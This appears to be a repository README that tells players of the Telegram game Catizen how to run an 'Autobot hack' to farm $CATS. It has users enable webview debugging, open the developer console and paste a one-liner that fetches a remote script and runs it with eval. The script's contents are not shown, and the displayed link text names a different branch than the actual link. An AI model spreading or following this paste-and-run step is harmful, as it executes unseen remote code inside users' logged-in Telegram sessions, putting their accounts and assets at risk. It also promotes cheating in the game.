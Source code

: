 # Instructions on how to use the Autobot hack in the game Catizen
##### If you have any questions, please contact me on Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Open the desktop Telegram client.
#### 2. Go to Settings - Advanced - Experimental Settings.
#### 3. Scroll down, find the Enable webview expecting option, switch it on.
#### 4. Reload the Telegram client.
#### 5. Go to Catizen, click on the game field where the kitties are playing.
#### 6. Press the key combination Ctrl + Shift + i, the developer console will open.
#### 7. Allow input to the console: type something and send it to the console, the system will tell you what to type to allow input.
#### 8. Paste the code below and send
```javascript
var unixTime=Date.now(); var url='[https://raw.githubusercontent.com/rahavitski/cats-stuff/main/Catizen-script-v1.1.js](https://raw.githubusercontent.com/rahavitski/cats-stuff/RUSSIAN/Catizen-script-v1.1.js)'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Wait a couple of seconds, go to the game, switch on Autobot and farm $CATS!
#### 10. Now every time you start the game, you need to repeat steps 5 to 9 to activate Autobot.
